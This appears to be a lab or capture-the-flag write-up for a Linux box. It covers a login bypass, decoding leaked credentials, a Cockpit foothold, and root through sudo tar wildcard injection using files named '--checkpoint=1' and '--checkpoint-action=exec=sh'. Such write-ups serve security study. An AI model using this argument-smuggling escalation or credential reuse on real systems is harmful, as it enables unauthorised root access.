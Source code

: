 
#InProgress 
```IP
192.168.232.10
```
# Enumeration
Ubuntu 20.04.6 LTS

## HTTP 80
apache 2.4.41
```
login.php
logout.php
blocked.html
db_config.php
```

## HTTP 9090
server blaze
# Exploitation
in /login.php we can get in as admin:''
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125090028.png?raw=true)
we can convert them with
```
echo 'dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy'  | base64 -d
```
we seem to have a set of credentials
```
james:canttouchhhthiss@455152
```
```
cameron:thisscanttbetouchedd@455152
```
we aren't able to SSH with either of them but we can use them on the blaze server in 9090

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124180708.png?raw=true)
we can enter with james:canttouchhhthiss@455152
we get cockpit version 215
we have a terminal and we can get initial foothold
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125091617.png?raw=true)

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125091922.png?raw=true)
```
sudo -l
```
it seems like we have access to this command
```
(ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```
we search how to scape it in GTFObins
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094214.png?raw=true)
we need 2 files with names as the highlighted parameters in order to tar to execute them
we create 2 files as follows in /tmp:
```
echo '' > /tmp/'--checkpoint=1'
```
eventhough we can't create files with a '/' character, we have sh in path so we could create the other file as follows:
```
touch ./'--checkpoint-action=exec=sh'
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094048.png?raw=true)

when executing the command we gain root access
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094004.png?raw=true)
we now have proof.txt

## Automated

### Peass
### Mimikatz

# Lateral Movement
